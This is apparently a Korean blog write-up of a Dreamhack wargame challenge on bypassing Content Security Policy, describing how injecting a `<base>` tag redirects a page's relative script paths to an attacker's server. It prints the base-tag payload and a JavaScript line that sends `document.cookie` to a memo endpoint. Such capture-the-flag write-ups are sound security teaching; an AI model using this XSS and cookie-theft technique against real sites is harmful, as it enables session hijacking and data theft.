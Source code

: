 ```yaml
---
title: "드림핵 lv.3 - CSP Bypass Bypass"
date: 2025-03-21 00:10:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, csp] 
description: 드림핵 CSP Bypass Advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/436](https://dreamhack.io/wargame/challenges/436)
# 문제 설명
Exercise: CSP Bypass의 패치된 문제입니다.

---
# 문제 풀이
이 전에 다루었던 [CSP Bypass](https://hoonsooni.com/posts/dreamhack_csp_bypass/) 문제의 심화 문제이다. <br />
전체적인 웹사이트의 달라진 점은 없고 CSP를 우회하는 것이 조금 더 까다로워졌다.<br />

웹사이트는 [XSS Filtering Bypass](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass/), [XSS Filtering Bypass Advanced](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass_advanced/), [CSP Bypass](https://hoonsooni.com/posts/dreamhack_csp_bypass/)에서 다뤄진 것과 거의 동일하기 때문에 특별히 분석할 것이 없다.
## 코드 분석
### app.py
```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)
```
나머지 코드는 거의 비슷하기 때문에 크게 달라진 부분만 가져와봤다.<br />

원래라면 /vuln 페이지에서는 param으로 들어가는 값을 그대로 리턴해주기 때문에 스크립트 코드의 실행 결과를 해당 페이지에서 볼 수 있었는데 이번에는 vuln.html이라는 페이지로 넘기면서 코드가 아닌 코드처럼 보이는 "문자열"이 그냥 화면에 출력되게끔 바뀌었다.<br />

그렇기 때문에 이 전에 시도했던 방식을 시도해보면 alert 창이 뜨지 않고 HTML 코드에만 script 태그가 들어간 것을 볼 수 있다. 문자열 그대로 들어간거기 때문에 실행은 되지 않는다.<br />
## 최종 풀이
우리가 지금 `<script>` 태그를 실행할 수 없는 이유는 HTTP 해더에 CSP 설정 값으로 막아두었기 때문이다.<br />
전 문제에서는 이를 우회하기 위해서 src 속성을 사용했지만 그것도 먹히지 않는다.<br />

드림핵 강의에서 CSP 우회 방법 중에 `<base>` 태그에 대해 다룬 적이 있다.<br />
해당 태그는 현재 서버가 운영중인 웹서비스의 기본 URL을 변경한다는 의미이다.<br />

예를 들어 www.google.com에 접속했을 때 해당 페이지의 기본 URL은 당연하게도 www.google.com이다.<br />
그렇기 때문에 해당 페이지에서 `<a href="/login" />`같은 링크를 눌렀을 때 기본 URL + /login으로 이동돼 최종적으로 www.google.com/login 페이지로 이동이 가능한 것이다.<br />
### base URL로 할 수 있는 것
/vuln 페이지의 HTML을 살펴보다 보면 해당 페이지가 로드될 때 실행되는 스크립트 주소가 보이게 된다.

```html
<script src="/static/js/jquery.min.js" nonce=""></script>
<script src="/static/js/bootstrap.min.js" nonce=""></script>
```
이렇게 두 스크립트가 실행된다.<br />

두 스크립트 모두 소스코드 주소(src 속성)를 절대 주소가 아니라 상대 주소를 사용하기 때문에 base URL을 변경해주면 내가 원하는 위치의 스크립트를 불러와 실행할 수 있게된다.<br />

즉, 지금 현재 baseURL은 "http://host3.dreamhack.games:14010"이기 때문에 /vuln 페이지에 접속할 때마다 "http://host3.dreamhack.games:14010/static/js/jquery.min.js"에 있는 코드를 실행한다는 것이다.<br />

`<base>` 태그를 이용해서 기본 주소를 변경해주고 내가 작성한 임의의 코드를 "임의서버주소/static/js/jquery.min.js" 위치에 저장함으로써 우리가 원하는 행위를 할 수 있게되는 것이다.<br />
### 익스플로잇
```js
location.href="http://127.0.0.1/memo?memo=" + document.cookie;
```
본인은 현재 운영중인(지금 보고계신 웹사이트) 개인 서버의 "/static/js/jquery.min.js" 위치에 위 코드를 입력하고 /vuln?param 값으로 `<base href="https://www.hoonsooni.com" />`을 넘겨주었다.<br />

하지만 무슨 짓을 해도 작동을 안한다. 시도해봄직한 경우의 수는 거의 다 시도해보고 테스트도 거쳐봤는데 무슨 수를 써도 /memo?memo= 뒤에 어떠한 문자열도 들어가지 않는 문제가 발생한다.<br />

그래서 혹시나 다른 서버를 이용하면 작동을 할까 싶어서 replit에 무료로 간단한 서버를 하나 올리고 거기에도 똑같은 위치에 똑같은 파일을 작성하니 이제 작동한다.<br />

/memo 페이지에 접속하면 플래그를 볼 수 있다.<br />

처음으로 시도했던 방법이 왜 안먹히는지는 아직 알아내지 못했다. 드림핵에 질문을 남겨도 일주일 넘게 아무런 답변을 받지 못했다.
# 배운 것
`<base>` 태그라는 것이 존재하는지 처음 알았고 해당 태그를 이용해서 내가 원하는 코드를 실행시키는 방법도 있는 것에 대해 놀랐다.